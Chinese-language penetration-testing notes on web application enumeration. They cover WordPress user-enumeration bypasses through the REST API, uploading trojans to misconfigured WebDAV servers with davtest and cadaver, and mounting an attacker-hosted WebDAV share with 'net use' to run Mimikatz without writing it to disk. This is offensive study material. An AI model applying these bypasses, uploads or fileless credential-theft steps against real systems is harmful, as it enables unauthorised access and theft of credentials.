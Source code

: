 # web应用枚举

&nbsp;

## Wordpress枚举

### 【wordpress基础】

* **wordpress目录结构**
  ```
  [文件夹] wp-admin      管理员页面
  [文件夹] wp-includes   
  [文件夹] wp-content    包含主题，插件，上传文件，默认情况下，uploads是以年月的形式组织显示的
  .htaccess
  robots.txt            有时没有
  index.php
  license.txt
  readme.html
  wp-config.php         其中包含数据库连接数据（账号密码）
  wp-activate.php
  wp-blog-header.php
  wp-comments-post.php
  wp-config-sample.php
  wp-cron.php
  wp-links-opml.php
  wp-load.php
  wp-login.php
  wp-mail.php
  wp-settings.php
  wp-signup.php
  wp-trackback.php
  xmlrpc.php
  ```
  
  * [文件夹] wp-content
    包含：themes文件夹，plugins文件夹，uploads文件夹，index.php

* **wordpress版本**
  * HTML meta信息中含有wordpress版本
    ```html
    <meta name =“ generator” content =“ WordPress 3.5.2” />
    ```
  * README.html
    readme.html中含有wordpress版本，但是新版wordpress中将这种信息抹除了
  * 网站HTML源中的版本
    在HTML源代码中 ， 该版本通常作为参数添加到页面加载的链接javascript和css资源上 
    ```html
    <link rel='stylesheet' id='wp-block-navigation-css' href='http://192.168.2.200:8000/wp-includes/blocks/navigation/style.min.css?ver=6.4' media='all' />
    ```
    显示wordpress版本为6.4

### 【wordpress用户枚举】

* **使用API枚举用户**
  * rest_route API枚举
    ```
  https://abc.com/blog/wp-json/wp/v2/users   屏蔽
  https://abc.com/blog/?rest_route=/wp/v2/users   绕过
    ```
    获得wordpress用户列表，用户id为1的用户
    
  * 使用wordpress公共API枚举用户
    例如jetpack插件会将用户列表数据导入到wordpress.com通过公共REST API提供
    ```
  https://blog.*******.com/wp-json/wp/v2/users 已屏蔽
  https://public-api.wordpress.com/rest/v1.1/sites/blog.*******.com/posts 绕过
    ```
  * 使用搜索枚举用户
    在少数情况下，我们遇到了没有明确阻止的API，但/wp/v2/users端点没有返回avatar_urls属性。这是由第三方安全插件或手动禁用头像（设置>讨论>头像）造成的。
    设置，将在网页和REST响应中隐藏头像。
    我们也找到了一个解决这些问题的方法。该端点支持参数 "搜索"。它的值与所有用户的字段匹配，包括电子邮件地址。通过简单的自动化，有可能发现每个电子邮件地址。与匹配的电子邮件相关的用户信息将在JSON响应中返回。根据经验，我们可以估计，揭示一个电子邮件地址需要200到400个请求。
    ```
  https://api.*****.com/wp-json/wp/v2/users  已屏蔽
  https://api.*****.com/wp-json/wp/v2/users?search=r@initech.com
  https://api.*****.com/wp-json/wp/v2/users?search=er@initech.com
  https://api.*****.com/wp-json/wp/v2/users?search=ter@initech.com
  https://api.*****.com/wp-json/wp/v2/users?search=eter@initech.com
  https://api.*****.com/wp-json/wp/v2/users?search=peter@initech.com  绕过
    ```
  * 绕过
    拼接绕过枚举用户
    有时主句会拒绝列出所有用户信息，但是可以正对一个用户进行枚举
    ```
  https://www.*****.org/wp-json/wp/v2/users  已屏蔽
  https://www.*****.org/wp-json/wp/v2/users/1  绕过
    ```
    大小写绕过枚举用户
    ```
  https://blog.*****.com/section/news?rest_route=/wp/v2/users  已屏蔽
  https://blog.*****.com/section/news?rest_route=/wp/v2/usErs  绕
    ```
    
### 【wordpress插件枚举】



&nbsp;

## WebDav枚举
* 通俗一点儿来说，WebDAV 就是一种互联网方法，应用此方法可以在服务器上划出一块存储空间，可以使用用户名和密码来控制访问，让用户可以直接存储、下载、编辑文件。

### 【webDav配置不当上传木马】

* 1）使用DavTest工具测试webdav能否执行一些脚本
  ```bash
  davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
  ```

* 2）使用cadaver工具连接webdav，上传脚本
  ```bash
  cadaver IP
  ```
  >登录成功后，使用upload，move，delete命令进行操作


### 【webdav无文件落地目标系统】

* window读取linux文件
  * （1）在win或者linux系统上搭建webdav服务环境，作为工具上传基址
    ```bash
    pip install PyWebDAV //win系统
    apt-get install python-webdav //linux系统
    davserver -D /工具路径 -n -H 10.10.10.10 //启动webdav
    ```
  * （2）当我们已经拥有命令执行权限时，需要将文件在目标机器上执行，由于 Windows 下载文件比较麻烦，故此采用 Webdav
    ```bash
    net use Z: http://10.10.10.10:8008 //挂载远程webdav
    net use Z: /DELETE //终止挂载
    ```
  * （3）当我们运行 Mimikatz 时，会从网络加载这个文件，而不会落地到目标机器


&nbsp;

